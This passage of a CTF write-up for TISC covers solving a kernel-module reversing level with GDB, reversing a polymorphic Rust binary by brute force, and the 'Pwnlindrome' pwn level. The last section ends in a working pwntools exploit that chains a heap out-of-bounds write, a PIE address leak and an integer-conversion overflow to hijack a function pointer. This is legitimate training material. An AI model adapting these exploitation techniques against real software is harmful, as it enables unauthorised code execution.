[    2.523109] Loading PALINDROME module...
[ 1960.340722] TISC{(null)}
```

Naturally, our flag is null, since we did our `store` variable does not contain the correct values.

To find the address of **store**, we can set a breakpoint inside the `dont_need_to_reverse_this` function.

```c
// address in IDA: 0x0000000000003AD
  zzp[7] = *store[1];
  zzp[12] = *store[1];
  zzp[21] = store[1][1];
  zzp[22] = store[2][1];
  zzp[37] = store[2][1];
  zzp[48] = store[2][1];
  zzp[10] = store[3][1] ^ 0x63;
  zzp[63] = store[2][1] ^ 0x63;
```

specifically, we want to break at these instructions so we can find the address of store.

Hence we will set a breakpoint at `0xffffffffc00023ad`, and then call `print_flag` again.

Upon hitting our breakpoint,

```
 0xffffffffc00023ad <dont_need_to_reverse_this+237> mov    rax, QWORD PTR [rip+0x1c54]        # 0xffffffffc0004008
 ```

 we see that our pointer to `store[1]` is at `0xffffffffc0004008`.

 ```
(remote) gef➤  x/5gx 0xffffffffc0004000
0xffffffffc0004000:     0xffffffffc00030e7      0xffffffffc00030e7
0xffffffffc0004010:     0xffffffffc00030e7      0xffffffffc00030e7
0xffffffffc0004020:     0xffffffffc00030e7
 ```

 If we examine the memory in GDB, we can see that `store[0-4]` contains pointer to our value in `store`.

 If we modify our memory as such, 

 ```
0xffffffffc0004000 -> 0xffffffffc00030e7 -> "1q"
0xffffffffc0004008 -> 0xffffffffc00030e9 -> "2w"
0xffffffffc0004010 -> 0xffffffffc00030eb -> "3e"
0xffffffffc0004018 -> 0xffffffffc00030ed -> "4r"
0xffffffffc0004020 -> 0xffffffffc00030ef -> "5t"
```

We can change our value in `store` and thus successfully decrypt our flag.

Here's the final GDB solve script:

```gdb
file ./vmlinux
gef-remote --qemu-user localhost 1234
add-symbol-file ../one.ko 0xffffffffc0002000

set {long}0xffffffffc0004000=0xffffffffc00030e7
set {long}0xffffffffc0004008=0xffffffffc00030e9
set {long}0xffffffffc0004010=0xffffffffc00030eb
set {long}0xffffffffc0004018=0xffffffffc00030ed
set {long}0xffffffffc0004020=0xffffffffc00030ef

set *0xffffffffc00030e7=0x7131
set *0xffffffffc00030e9=0x7732
set *0xffffffffc00030eb=0x6533
set *0xffffffffc00030ed=0x7234
set *0xffffffffc00030ef=0x7435

set $rip=0xFFFFFFFFC0002800

continue
```

and our flag will appear in our kernel buffer as such:

```
TISC{1cmp_c0vert_ch4nnel!}
```


## LEVEL 5A - Morbed, Morphed, Morbed

> Topic: Reverse Engineering
>  
> We've uncovered a file deployed by PALINDROME with the following message..
> 
> There are several reasons I may deem you morbin-able to be worthy of being morbed. These include, but are not limited to:
> - I am very Morby
> - I see you being morbin-able
> 
> To prove that you are a morber, un-morb this file!
> 
> *NOTE*: Solving this challenge unlocks level 6!
> 
> Attached File: [morbed](attachments/5a/morbed)

If we try to run the given program, we get the following output

```
⣐⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣶⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣅⡠⠃⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠈⢻⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⢹⣿⣇⡀⠀⠀⠀⢀⣤⣤⣤⣾⣿⣿⣿⣿⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀
⢸⣿⣿⣷⡀⣠⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣦⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣶
⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣤⡀⠀⠀⠀⣀⣀⣤⣾
⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠉⠙⠉⠉⠁⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⣿⣿⣿⠟⠋⠁⠀⠀
094d859b4df598d6e170ef20a83dd802
thread 'main' panicked at 'called `Result::unwrap()` on an `Err` value: ErrUnknown(1)', src/main.rs:84:23
note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
Aborted (core dumped)
```

to roughly get an idea of what is going on, we can trace the system calls of this program.

```bash
$ strace ./morbed
...
# truncated
...
write(1, "\342\243\220\342\240\200\342\240\200\342\240\200\342\240\200\342\240\200\342\240\200\342\240\200\342\240\200\342\240\200\342\240"..., 855⣐⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣶⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣅⡠⠃⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠈⢻⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⢹⣿⣇⡀⠀⠀⠀⢀⣤⣤⣤⣾⣿⣿⣿⣿⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀
⢸⣿⣿⣷⡀⣠⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣦⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣶
⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣤⡀⠀⠀⠀⣀⣀⣤⣾
⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
) = 855
write(1, "\342\240\200\342\240\200\342\240\211\342\240\231\342\240\211\342\240\211\342\240\201\342\240\200\342\242\270\342\243\277\342\243"..., 91⠀⠀⠉⠙⠉⠉⠁⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⣿⣿⣿⠟⠋⠁⠀⠀
) = 91
write(1, "0879757ec64cb13fd33701e8b80236e8"..., 330879757ec64cb13fd33701e8b80236e8
) = 33
clone(child_stack=NULL, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0x7f9fc803fe90) = 387308
mmap(NULL, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = -1 EPERM (Operation not permitted)
write(2, "thread '", 8thread ')                 = 8
write(2, "main", 4main)                     = 4
write(2, "' panicked at '", 15' panicked at ')         = 15
write(2, "called `Result::unwrap()` on an "..., 58called `Result::unwrap()` on an `Err` value: ErrUnknown(1)) = 58
write(2, "', ", 3', )                      = 3
write(2, "src/main.rs", 11src/main.rs)             = 11
write(2, ":", 1:)                        = 1
write(2, "84", 284)                       = 2
write(2, ":", 1:)                        = 1
write(2, "23", 223)                       = 2
write(2, "\n", 1
)                       = 1
write(2, "note: run with `RUST_BACKTRACE=1"..., 78note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
) = 78
rt_sigprocmask(SIG_UNBLOCK, [ABRT], NULL, 8) = 0
gettid()                                = 387307
getpid()                                = 387307
tgkill(387307, 387307, SIGABRT)         = 0
--- SIGABRT {si_signo=SIGABRT, si_code=SI_TKILL, si_pid=387307, si_uid=1000} ---
+++ killed by SIGABRT (core dumped) +++
Aborted (core dumped)
```

We can see that it tries to **mmap** at an address `0x0` which gives in an **operation not permitted** error.

An easy solution to fix this problem is to run our program with root permissions via `sudo`.

```
❯ sudo ./KEEP_THIS_COPY
⣐⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣶⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣅⡠⠃⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠈⢻⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⢹⣿⣇⡀⠀⠀⠀⢀⣤⣤⣤⣾⣿⣿⣿⣿⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀
⢸⣿⣿⣷⡀⣠⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣦⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣶
⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣤⡀⠀⠀⠀⣀⣀⣤⣾
⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠉⠙⠉⠉⠁⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⣿⣿⣿⠟⠋⠁⠀⠀
99da49bf753d923a4e52c0d68c775490
-~-~-~-~-~-~-~-~-~-~-~-~-~-~-~-~
It's Morbin Time!
abc
Rejoice, my fellow Morbs
```

we see that our program takes in an input and prints something, then exits.

If we run this program in GDB, and then *interrupt* the program when it prompts for input _(of size 50)_ via `ctrl-c`, we will see that our program breaks at our mmap'ed address.

If we step through the assembly code at that point, we see that it xors our input with `0x2f`.

```
→      0x23f                  xor    eax, 0x2f
```

It then makes a comparison between our xored input and another stream of bytes.

If we xor the stream of bytes with `0x2f`, we get the following:

```
gef➤  xor-memory display $rsi 40 0x2f
[+] Displaying XOR-ing 0x7fffffffb2a0-0x7fffffffb2c8 with '0x2f'
──────────────────────────────────────── Original block ────────────────────────────────────────
0x00007fffffffb2a0     7b 66 7c 6c 54 5b 47 1e 5c 70 1e 5c 70 41 1f 5b    {f|lT[G.\p.\pA.[
0x00007fffffffb2b0     70 5b 47 1c 70 4e 4c 18 5a 1b 43 70 49 43 1b 48    p[G.pNL.Z.CpIC.H
0x00007fffffffb2c0     70 43 62 1b 1f 52 07 97    pCb..R..
───────────────────────────────────────── XOR-ed block ─────────────────────────────────────────
0x00007fffffffb2a0     54 49 53 43 7b 74 68 31 73 5f 31 73 5f 6e 30 74    TISC{th1s_1s_n0t
0x00007fffffffb2b0     5f 74 68 33 5f 61 63 37 75 34 6c 5f 66 6c 34 67    _th3_ac7u4l_fl4g
0x00007fffffffb2c0     5f 6c 4d 34 30 7d 28 b8    _lM40}(.
```

`TISC{th1s_1s_n0t_th3_ac7u4l_fl4g_lM40}` which if we input into the program, gives us a different output with some random trailer bytes.

```
❯ sudo ./morbius
⣐⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣶⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣅⡠⠃⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠈⢻⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⢹⣿⣇⡀⠀⠀⠀⢀⣤⣤⣤⣾⣿⣿⣿⣿⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀
⢸⣿⣿⣷⡀⣠⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣦⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣶
⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣤⡀⠀⠀⠀⣀⣀⣤⣾
⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠉⠙⠉⠉⠁⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⣿⣿⣿⠟⠋⠁⠀⠀
6f9f2ae89cefd7e16d19f2dc134c23a9
-~-~-~-~-~-~-~-~-~-~-~-~-~-~-~-~
It's Morbin Time!
TISC{th1s_1s_n0t_th3_ac7u4l_fl4g_lM40}
Time to get Morbed, é!Uʷp]P,
                            9/R6<ڶ=
```

Running the program a few more times, we can make some observatations:

1. We can add 12 more bytes after the fake flag to fill up the 50 bytes of input.
2. Depending on the bytes that we add, it will generate a different output each time.
3. For the same input, we will always get the same output.

In order to see how the output was generated, I stepped through many many many many instructions coupled with many jumps, which made me feel sleepy _zzZZ_.

However, I did notice that the program extracts some characters from our input such as `t` and `n` when stepping through the program.

After awhile, I decided to try play around with my input. I sent 50 bytes of input to the program

```
TISC{th1s_1s_n0t_th3_ac7u4l_fl4g_lM40} + "A"*12
```

and changed one byte at a time to see which character in the trailing 12 characters will affect the output of the program.

I eventually found that only 2 bytes of the 12 bytes affected the output. Then I figured that perhaps I could brute force these 2 characters to see if we can find our flag in the outputs.

The code to brute force the program was tricky as the program seems to take in input via stderr, but heres the final script:


```py
# coding: utf-8
from subprocess import Popen, PIPE
import os
from string import printable

#p = process('./morbius2')

FAKE_FLAG = "TISC{th1s_1s_n0t_th3_ac7u4l_fl4g_lM40}"
KEY = "12{}12345"
KEY2 = "{}123"


for i in printable:
    for j in printable:
        FINAL_KEY = FAKE_FLAG + KEY.format(i) + KEY2.format(j)

        r, w = os.pipe()
        p = Popen('./morbius2', stderr=r, stdout=PIPE)
        os.write(w, FINAL_KEY.encode())
        os.close(w)
        output = p.communicate()[0]
        os.close(r)

        if b'TISC' in output:
            print(output)
            print(FINAL_KEY)
            exit()
```

which found me the flag 

`TISC{P0lyM0rph15m_r3m1nd5_m3_0f_M0rb1us_7359430}`

## LEVEL 6 - Pwnlindrome

> Topics: Reverse Engineering, Pwn
> 
> PALINDROME's recruitment operations has resumed once again.
> 
> One of our agents managed to obtain a copy of the .elf binary used in their recruitment operations. Will you be able to pass this test and get us further into their organization?
> 
> The time is ticking. Good luck!
> 
> To access server: nc chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg 64421
> 
> ATTACHED FILES
> [pwnlindrome.elf](attachments/6/pwnlindrome.elf)

```
❯ file pwnlindrome.elf
pwnlindrome.elf: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b7fdbec2cd351849de3bd47b952c531fd7f71bbb, for GNU/Linux 3.2.0, stripped

❯ checksec pwnlindrome.elf
[*] '/home/elmo/TISC/6/pwnlindrome.elf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```
####################################################################
#                                                                  #
#  \              /  _____         _____  _____   ___ ___   _____  #
#   \            /  |      |      |      |     | |   |   | |       #
#    \    /\    /   |_____ |      |      |     | |   |   | |_____  #
#     \  /  \  /    |      |      |      |     | |   |   | |       #
#      \/    \/     |_____ |_____ |_____ |_____| |   |   | |_____  #
####################################################################

FLOW THROUGH THE LEVELS!

####################################################################
#                             THE MENU                             #
# 1. Access level 1                                                #
# 2. Access level 2                                                #
# 3. Access level 3                                                #
# 4. Menu                                                          #
# 5. Exit                                                          #
####################################################################

Enter your option:
```

We are introduced with a welcome screen with 3 inputs.

If we look at the source code for level 1, 

```c
bool level_1()
{
  v0 = std::operator<<<std::char_traits<char>>(&std::cout, "Welcome to level 1!");
  std::ostream::operator<<(v0, &std::endl<char,std::char_traits<char>>);
  v10 = 0;
  v9 = 0;
  std::operator<<<std::char_traits<char>>(&std::cout, "Please provide a seed: ");
  seed = get_signed_integer_input();
  srand(seed);
  while ( 1 )
  {
    idx = v10++;                                // loop index
    result = idx <= 15;                         // loop 16 times
    if ( !result )
      break;
    random = rand();
    if ( v10 <= 16 )
      random = random % 256 + 1;
    v1 = v9++;
    v6 = (char *)level_1_allocations + random + (__int64)(v1 << 8) + 247; // level_1_allocations = malloc(0x1000)
    v2 = std::operator<<<std::char_traits<char>>(&std::cout, "Allocation ");
    v3 = std::ostream::operator<<(v2, (unsigned int)v10);
    std::operator<<<std::char_traits<char>>(v3, " - What should I allocate here? ");
    *v6 = get_signed_integer_input();           // VULNERABLE!! OOB WRITE
  }
  return result;
}
```

It takes in a seed from the user, and then take in 16 integer inputs _(4 bytes each)_. These 16 inputs are stored at a position relative to the start of the `level_1_allocations` chunk in the heap.

However, if we notice, we can write up to `256 + (15<<8) + 247 = 4343 > 0x1000`, which allows us to write beyond the chunk itself _(oob write)_.

Now if we look at level 3, it makes a check to see if a certain condition is fulfilled.

```c
  if ( (unsigned __int8)check_if_clear_level_1(*(unsigned int *)level_1_check) != 1 ) // level_1_check = malloc(0x1000)
  {
    v0 = std::operator<<<std::char_traits<char>>(&std::cout, "Seems like you haven't cleared level 1...");
    return std::ostream::operator<<(v0, &std::endl<char,std::char_traits<char>>);
  }
```

```c
__int64 __fastcall check_if_clear_level_1(int a1)
{
  unsigned int v2; // eax
  int i; // [rsp+18h] [rbp-8h]
  int v4; // [rsp+1Ch] [rbp-4h]

  if ( a1 <= 10 )
    return 0LL;
  if ( (unsigned __int8)sub_555555556429((unsigned int)a1) )
    return 0LL;
  v4 = 1;
  for ( i = sub_555555556466(0LL); i <= a1; i = sub_555555556466(v2) )
  {
    if ( i == a1 )
      return 1LL;
    v2 = v4++;
  }
  return 0LL;
}
```

As we can see, a number is passed in from another malloced chunk into the function. And then it does some calculations and return 1 when a certain condition is fulfilled.

In the interest of time, we will not bother reversing this function to find a valid number. We will just brute force it.

```c
#include <stdbool.h>
#include <stdio.h>
#include <stdint.h>

int64_t op2(int a1)
{
  int v2; // ebx

  if ( a1 <= 1 )
    return (unsigned int)a1;
  v2 = op2((unsigned int)(a1 - 1));
  return v2 + (unsigned int)op2((unsigned int)(a1 - 2));
}

bool op(char a1)
{
  return ((a1 * a1) & 1) != 0LL;
}

int64_t check_if_clear_level_1(int a1)
{
  unsigned int v2; // eax
  int i; // [rsp+18h] [rbp-8h]
  int v4; // [rsp+1Ch] [rbp-4h]

  if ( a1 <= 10 )
    return 0LL;
  if ( (uint8_t)op((unsigned int)a1) )
    return 0LL;
  v4 = 1;
  for ( i = op2(0LL); i <= a1; i = op2(v2) )
  {
    if ( i == a1 )
      return 1LL;
    v2 = v4++;
  }
  return 0LL;
}

int main() {

    int i = 0;

    while (1) {

            printf("Trying: %d\n", i);
            if (check_if_clear_level_1(i) != 0) {

                    printf("FOUND %d\n", i);
                    return 0;

            }
            i += 1;

    }


}

/*
Output:
Trying: 1
Trying: 2
...
FOUND 34
*/
```

We can see that the number 34, is valid for this check. However, how can we modify the value at **level_1_check**?

If we debug the program, and look at the addresses of the 2 chunks in memory _(level_1_check and level_1_allocations)_

```
gef➤  x/2gx 0x00055555555C400
0x55555555c400: 0x000055555556f4a0      0x00005555555704b0
gef➤  pi 0x00005555555704b0 - 0x000055555556f4a0
4112
```

We see that they are 4112 bytes apart. This is less than the `4343` max bytes that we can write to from `level_1_allocations`.

This means that with our level 1 OOB write, we can overwrite the `level_1_check` with the number `34` that would allow us to unlock `level 3`.

```
x + (15<<8) + 247 = 4112
x = 25
```

Now we need to find a random seed such that it will give us a random of 25. We can write another c program to brute force this seed.

```c
#include <stdlib.h>
#include <stdio.h>

int qq(int i) {

	int random;
	srand(i);
	for (int x=0; x<16; x+=1) {
		random = rand() % 256 + 1;
		printf("%d: %d\n", x, random);
	}
	return random;

}

int main() {

	int i = 0;

	while (1) {

		if (qq(i) == 25) {

			printf("FOUND %d\n", i);
			return 0;

		}
		i += 1;


	}

}

/*
OUTPUT:
...
0: 58
1: 87
2: 113
3: 188
4: 68
5: 243
6: 227
7: 35
8: 2
9: 70
10: 117
11: 48
12: 250
13: 167
14: 249
15: 25
FOUND 180
*/

```

Hence, a seed of 180 will allow us to accurately write to `level_1_check`.

At this point we can craft stage 1 of our exploit script, to unlock level 3.

```python
def unlock_level_3():
    p.sendlineafter(b"option: ", b"1")
    p.sendlineafter(b"seed: ", b"180")

    for i in range(16):
        p.sendlineafter(b"here? ", b"34")
```

Now if we look at the code for level 3, 

```c
    v2 = std::operator<<<std::char_traits<char>>(&std::cout, "Welcome to level 3!");
    std::ostream::operator<<(v2, &std::endl<char,std::char_traits<char>>);
    v3 = std::operator<<<std::char_traits<char>>(&std::cout, "There is actually no level 3 ... ");
    std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
    v4 = std::operator<<<std::char_traits<char>>(&std::cout, "All we want you to do is to leave a message behind :D");
    std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
    std::ostream::operator<<(&std::cout, &std::endl<char,std::char_traits<char>>);
    v15 = 0;
    v5 = alloca(48LL);
    s = &v12;
    v6 = alloca(48LL);
    v13 = (char *)&v12;
    memset(&v12, 0, 0x28uLL);
    memset(v13, 0, 0x28uLL);
    result = sub_555555557B4C();
    v15 = result;
    if ( (_WORD)result != 0xFFFF )
    {
      v7 = std::operator<<<std::char_traits<char>>(&std::cout, "Please type your message below.");
      v8 = std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
      std::ostream::operator<<(v8, &std::endl<char,std::char_traits<char>>);
      std::istream::get((std::istream *)&std::cin, v13, v15);
      v9 = std::operator<<<std::char_traits<char>>(&std::cout, "Your message is ");
      v10 = std::operator<<<std::char_traits<char>>(v9, v13);
      std::ostream::operator<<(v10, &std::endl<char,std::char_traits<char>>);
      sub_555555557ACD(v13);
      v11 = std::operator<<<std::char_traits<char>>(
              &std::cout,
              "Thanks for leaving a message behind! It will be for the next challenger :)");
      std::ostream::operator<<(v11, &std::endl<char,std::char_traits<char>>);
      std::istream::get((std::istream *)&std::cin);
      result = *((_QWORD *)s + 2);
      if ( result )
        return (*((__int64 (**)(void))s + 2))();// call_anything??
    }
  }
  return result;
}
```

```c
__int64 sub_555555557B4C()
{
  __int64 v0; // rax
  int input; // [rsp+Ch] [rbp-4h]

  std::operator<<<std::char_traits<char>>(&std::cout, "Input the length of your message: ");
  input = get_signed_integer_input();
  if ( input <= 40 )
    return (unsigned int)input;                 // vulnerable to signed -> unsigned int conversion
  v0 = std::operator<<<std::char_traits<char>>(
         &std::cout,
         "The provided message length exceeds the max length. Exiting this option.");
  std::ostream::operator<<(v0, &std::endl<char,std::char_traits<char>>);
  return 0xFFFFFFFFLL;
}
```

We can see that it prompts us for an input size *(which is vulnerable to signed -> unsigned integer conversion)* which gives us a buffer overflow.

It then checks if a variable is initialized, and calls it if it is initialized.

```c
      result = *((_QWORD *)s + 2);
      if ( result )
        return (*((__int64 (**)(void))s + 2))();// call_anything??
```

Thus, with our buffer overflow, we can overwrite this variable, and we will be able to redirect code execution to anywhere we want.

If we poke around more, we can even find a function that opens, and prints the content of a file _(win function?)_.

```c
void win_()
{
  __int64 v0; // rax
  __int64 v1; // rax
  _QWORD *v2; // rax
  char v3[256]; // [rsp+0h] [rbp-240h] BYREF
  __int64 v4; // [rsp+100h] [rbp-140h] BYREF
  char v5[40]; // [rsp+210h] [rbp-30h] BYREF

  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(v5);
  std::ifstream::basic_ifstream(v3, "4287e796e9e09f36c2d1a2dd460c0716af4bdac6.txt", 8LL);
  if ( (unsigned __int8)std::ios::operator!(&v4) )
  {
    v0 = std::operator<<<std::char_traits<char>>(&std::cout, "The file does not exist");
    std::ostream::operator<<(v0, &std::endl<char,std::char_traits<char>>);
  }
  else
  {
    while ( 1 )
    {
      v2 = (_QWORD *)std::getline<char,std::char_traits<char>,std::allocator<char>>(v3, v5);
      if ( !(unsigned __int8)std::ios::operator bool((char *)v2 + *(_QWORD *)(*v2 - 24LL)) )
        break;
      v1 = std::operator<<<char>(&std::cout, v5);
      std::ostream::operator<<(v1, &std::endl<char,std::char_traits<char>>);
    }
  }
  std::ifstream::close(v3);
  std::ifstream::~ifstream(v3);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string(v5);
}
```

If we could call this function, we may be able to get a flag :)

However, this binary has **PIE**, which means we do not know the address of this function whenever it runs. We need to find a way to leak an address. Let's look at level 2 now.

I will spare you most of the reversing details _(some hours of staring at GDB)_, but level 2 essentially features an implementation of a circular linked list in the heap.

_something like this_


Every new node created will be a new entry on this linked-list, and it will contain 3 values.

```
0. Size of node
1. Pointer to the contents of the node (in another chunk)
2. Pointer to the next node in linked list
```

All contents of every node is stored on a contiguous chunk in the heap, and is sorted by sizes.

For each size, there is a maximum number of node that can be added, to prevent heap overflow.

Hence the program keeps count of the number of nodes stored for each size group, and a pointer to this count is also stored in the same chunk as the buffer.

Hence, the exploit allocates 2 chunks in different size groups, and modified the smaller chunk to fill up all the null bytes up to the pointer, so that the pointer address can be leaked, allowing us to resolve PIE.

```python
# coding: utf-8
from pwn import *

def call(addr):
    p.sendlineafter(b"option: ", b"1")
    p.sendlineafter(b"seed: ", b"180")

    for i in range(16):
        p.sendlineafter(b"here? ", b"34")

    p.sendlineafter(b"option: ", b"3")
    p.sendlineafter(b"message: ", f"{-131032+40}")

    orig = p64(addr)
    win = b""

    for byte in orig:
        tmp = (byte ^ 0x22) - 0x22
        if tmp < 0:
            tmp += 256
        win += tmp.to_bytes(1, 'little')


    p.sendline(b"A"*64 + win)


def leak():
    p.sendlineafter(b"option: ", b"2")

    p.sendlineafter(b"do? ", b"1")
    p.sendlineafter(b"buffer: ", b"100")
    p.sendlineafter(b"node: ", b"CHUNK SIZE 100")

    p.sendlineafter(b"do? ", b"1")
    p.sendlineafter(b"buffer: ", b"20")
    p.sendlineafter(b"node: ", b"CHUNK SIZE 20")

    p.sendlineafter(b"do? ", b"2")
    p.sendlineafter(b"index: ", b"2")
    p.sendlineafter(b"buffer: ", b"1296")
    p.sendlineafter(b"node: ", b"A"*1296)

    p.sendlineafter(b"do? ", b"4")
    p.sendlineafter(b"index: ", b"2")
    p.recvuntil("buffer!\n\n")
    ret = unpack(p.recvline().lstrip(b"A").strip(b'\n'), 'all')

    # cleanup
    p.sendlineafter(b"do? ", b"6")
    return ret


if args.REMOTE:
    p = remote('chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg', 64421)
else:
    p = process('./pwnlindrome.elf')

addr = leak() - 33824
win = addr + 15936
print(hex(win))

call(win)

p.interactive()
```

`TISC{ov3rFL0w_4T_1Ts_fIn3sT}`
